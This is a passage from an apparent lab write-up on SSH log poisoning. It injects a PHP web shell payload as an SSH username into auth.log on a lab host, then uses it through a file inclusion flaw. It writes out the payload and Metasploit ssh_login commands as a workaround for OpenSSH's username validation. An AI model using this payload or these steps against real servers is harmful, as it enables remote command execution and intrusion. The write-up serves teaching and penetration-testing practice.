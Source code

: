 
Now that we can access the *auth.log* file, let’s see the working of SSH log poisoning.  

If we try anything related to authentication, the server will log it in *auth.log* file. First, i will try to authenticate as a random user with `ssh randomuser@10.0.2.14` command and then, since the injected file is included by the PHP script, if we inject a PHP code, the webserver will execute that as well, so we try to do that with `ssh '<?php system($_GET['cmd']); ?>'@10.0.2.14` command, where the user part is a PHP code for executing any command we pass in **cmd** parameter:
- `system( )` is a PHP function that allows the execution of shell commands and display the output
- `$_GET['cmd']` code retrieves the value of the query parameter **cmd** from the URL’s    



**Issue**: running the second command, I encounter the following error in the local machine:  
`remote username contains invalid characters`  
This error suggests that the SSH client is rejecting the username due to the presence of special characters, which are part of the PHP code I'm trying to inject. This is a vulnerability that is now patched from upstream `ssh`.  
>   For more details of the patch for this vulnerability check the function `valid_ruser()` in this [link](https://github.com/openssh/openssh-portable/commit/7ef3787c84b6b524501211b11a26c742f829af1a).

We need a workaround!

#### 4.1 Metasploit Workaround
One way to run the command `ssh '<?php system($_GET['cmd']); ?>'@10.0.2.14` is using the Metasploit framework, loading a specific Metasploit module to perform SSH scans and login attempts.   


The commands to execute are:
```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set USERNAME <?php system($_GET['cmd']); ?>
set password any_passwd
set rhost 10.0.2.14
run
```
> Note that at this moment we are only interested in ensuring that in the *auth.log* file there are new entries relating to the attempted authentication, to ensure that if we inject some code it will be executed.  


At this point, if we return to the *auth.log* file, we can see new entries related to attempted SSH authentications; specifically, in the second authentication, the username, which would be `<?php system($_GET['cmd']); ?>`, is not inserted but is replaced with a blank space, so we see `Invalid user   from...`, this is due to the "sanitization" of the username by the server, but the PHP code has still been injected into the log file. In the red boxes where the username should appear, we have included a backdoor and anything we execute will be displayed in the box. In fact if we try, for example, to list the contents of the current folder with the `ls -la` command, the output of the command will be displayed instead of the username.

